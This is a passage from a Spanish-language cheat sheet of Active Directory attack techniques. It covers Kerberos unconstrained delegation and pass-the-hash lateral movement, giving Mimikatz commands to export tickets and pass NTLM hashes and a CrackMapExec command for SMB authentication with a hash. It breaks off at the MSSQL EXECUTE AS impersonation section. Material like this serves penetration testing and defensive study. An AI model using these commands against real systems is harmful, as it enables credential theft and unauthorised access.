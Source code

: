 [Volver al índice](#índice-de-técnicas)

---

## 7. Kerberos Unconstrained Delegation

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Extrae TGTs de usuarios que se conectan a un host vulnerable.                           |
| **Condiciones** | Control sobre host con unconstrained delegation.                                        |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # sekurlsa::tickets /export
    ```

[Volver al índice](#índice-de-técnicas)

---

## 8. Lateral Movement via SMB/Token/Ticket

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Movimiento lateral usando hashes, tickets o tokens.                                     |
| **Condiciones** | Hash/ticket/token válido y acceso remoto (SMB/WinRM habilitado).                        |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # sekurlsa::pth /user:<USER> /domain:<DOMINIO> /ntlm:<HASH>
    ```
- **Linux:**  
  - **CrackMapExec:**  
    ```bash
    crackmapexec smb <IP> -u <user> -H <NTLM>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 9. MSSQL Impersonation (EXECUTE AS)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Toma la identidad de otro usuario en SQL Server mediante EXECUTE AS.                    |
| **Condiciones** | Permiso EXECUTE AS o CONTROL en SQL Server.                                             |
